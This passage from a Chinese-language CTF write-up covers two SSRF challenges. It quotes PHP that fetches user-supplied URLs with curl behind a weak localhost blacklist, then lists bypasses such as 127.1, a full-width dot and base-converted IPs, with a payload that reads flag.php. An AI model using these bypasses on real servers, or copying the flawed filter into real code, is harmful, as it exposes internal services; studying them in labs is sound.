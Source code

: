 >     die('hacker');
> }
> }
> else{
>     die('hacker');
> }
> ?>
> ```
>
> [PHP: parse_url - Manual](https://www.php.net/manual/zh/function.parse-url)

要求使用http和https协议，同时过滤了localhost和127.0.0
那么351的方法都不能用了，绕过方法也很多：

`127.0.1`、`127.1`、`127。0.0.1`、或者`转进制:`[IP地址进制转换 (520101.com)](https://tool.520101.com/wangluo/jinzhizhuanhuan/)

这里用：

```
url=http://127.1/flag.php
```

## 353

> ```php
> <?php
> error_reporting(0);
> highlight_file(__FILE__);
> $url=$_POST['url'];
> $x=parse_url($url);
> if($x['scheme']==='http'||$x['scheme']==='https'){
> if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
> $ch=curl_init($url);
> curl_setopt($ch, CURLOPT_HEADER, 0);
> curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
> $result=curl_exec($ch);
> curl_close($ch);
> echo ($result);
> }
> else{
>     die('hacker');
> }
> }
> else{
>     die('hacker');
> }
> ?> hacker
> ```
>
> 

把127、.0、.、。过滤了
转进制[IP地址进制转换 (520101.com)](https://tool.520101.com/wangluo/jinzhizhuanhuan/)或者127.1都可
